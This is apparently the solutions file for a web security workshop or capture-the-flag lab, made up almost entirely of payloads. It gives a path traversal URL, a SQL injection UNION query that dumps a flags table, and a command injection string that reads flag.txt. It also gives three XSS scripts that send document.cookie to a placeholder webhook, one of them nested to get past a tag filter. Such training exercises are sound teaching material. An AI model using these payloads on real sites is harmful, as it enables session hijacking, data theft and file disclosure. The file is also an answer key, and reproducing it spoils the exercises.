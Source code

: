 # Web Security Workshop solutions

## LFI: exporting data on inspector gadget

Visit http://localhost:3001/?loc=..%2f..%2fdocument%2finsp3ct0r_g4dg3t_456afbc.ht.htmlml

## SQLI: Worker's Union

Query: `' UNION SELECT flag, null FROM flags;--`

## XSS: Basic

```html
<script>
  document.location.href = "<Your webhook site>?c=" + document.cookie;
</script>
```

# OS Command injection: Safe-Cmd

```bash
;cat<flag.txt;#
```

## XSS: Getting the staff cookies

```html
<script>
  document.location.href = "<Your webhook site>?c=" + document.cookie;
</script>
```

## XSS: Getting the admin

```html
<scr<script>ipt>
document.location.href= "<Your webhook site>?c=" + document.cookie;
</scr</script>ipt>
```
